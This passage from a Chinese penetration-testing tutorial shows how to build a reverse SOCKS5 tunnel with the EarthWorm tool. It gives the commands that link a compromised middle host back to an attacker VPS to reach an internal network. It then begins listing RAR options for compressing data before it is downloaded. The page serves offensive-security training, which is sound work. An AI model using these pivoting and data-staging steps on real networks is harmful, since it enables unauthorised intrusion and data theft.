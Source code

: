 **(2)反弹 SOCKS 5 服务器**

用于中间机器没有公网 IP 情况下，我们利用它访问内网资源。

在公网 VPS 上运行：(攻击机)

```
ew_for_win.exe -s rcsocks -l 1080 -e 8888
```

[![gXJrQg.png](https://z3.ax1x.com/2021/05/23/gXJrQg.png)](https://imgtu.com/i/gXJrQg)

意为在公网 VPS 上添加一个转接隧道，把 1080 端口的收到的代理请求转发给 8888 端口。

然后在中间机上执行：

```
./ew_for_linux -s rssocks -d VPSip -e 8888
```

[![gXJsyQ.png](https://z3.ax1x.com/2021/05/23/gXJsyQ.png)](https://imgtu.com/i/gXJsyQ)

意为在中间机上启动 SOCKS 5 服务，然后反弹到 VPS 的8888端口。

**这样就可以用 VPS:1080 架设的 SOCKS 5 代理服务访问目标机器。**

公网 VPS 这边在中间机执行后，会收到消息，返回🆗。

[![gXYNX4.png](https://z3.ax1x.com/2021/05/23/gXYNX4.png)](https://imgtu.com/i/gXYNX4)

在攻击机上访问，可以看到成功访问：

[![gXJhWT.png](https://z3.ax1x.com/2021/05/23/gXJhWT.png)](https://imgtu.com/i/gXJhWT)



**(3)二级网络环境**

......我实验已经包含了。

三级网络环境其实同理，就是多了一层代理。

### 压缩数据

渗透测试中，下载数据是一项重要的工作。

下载数据之前先压缩可以减少时间成本，可以使用 RAR 或 7-zip 进行压缩。

#### RAR

RAR 是一种专利文件格式，用于数据的压缩与打包。

WinRAR 是一款功能强大的文件压缩/解压缩工具，支持绝大多数的压缩文件格式。WinRAR 提供了强力压缩、分卷、加密和自解压模块，简单易用。

+ -a：添加要压缩的文件。
+ -k：锁定压缩文件。
+ -s：生成存档文件 (这样可以提高压缩比)。
+ -p：指定压缩密码。
+ -r：递归压缩，包括子目录。
+ -x：指定要排除的文件。
+ -v：分卷打包，在打包大文件时用处很大。
+ -ep：从名称中排除路径。
+ -ep1：从名称中排除基本目录。
+ -m0：存储，添加到压缩文件时不压缩文件。
+ -m1：最快，使用最快压缩方式 (压缩比低)。
+ -m2：较快，使用快速压缩方式。
+ -m3：标准，使用标准压缩 (默认)。
+ -m4：较好，使用较强压缩方式 (速度较慢)。
+ -m5：最好，使用最强压缩方式。

